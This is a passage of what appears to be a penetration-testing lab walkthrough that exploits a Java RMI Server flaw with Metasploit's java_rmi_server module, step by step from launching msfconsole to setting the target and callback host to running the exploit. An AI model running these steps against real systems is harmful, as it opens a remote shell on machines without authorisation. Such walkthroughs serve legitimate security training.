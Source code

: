 ### 3. Java RMI Server

To exploit this vulnerability, we will use the **`exploit/multi/misc/java_rmi_server`** module in **Metasploit**:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/multi/misc/java_rmi_server
	```

3. **Set options**:
	After loading the exploit, you'll need to configure the necessary options like **RHOSTS** (the target IP) and **LPORT** (the listening port for the connection).

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set the local IP**:
	When using a virtual machine (VM), it's often necessary to configure **LHOST** (local host) to ensure the target machine can communicate back to your attacking system.

	```bash
	set LHOST <local IP>
	```

6. **Run the exploit**:
	Now, you can execute the exploit by typing:
	```bash
	run
	```

After running the exploit, you should see output similar to this:
![alt text](images/image-9.png)
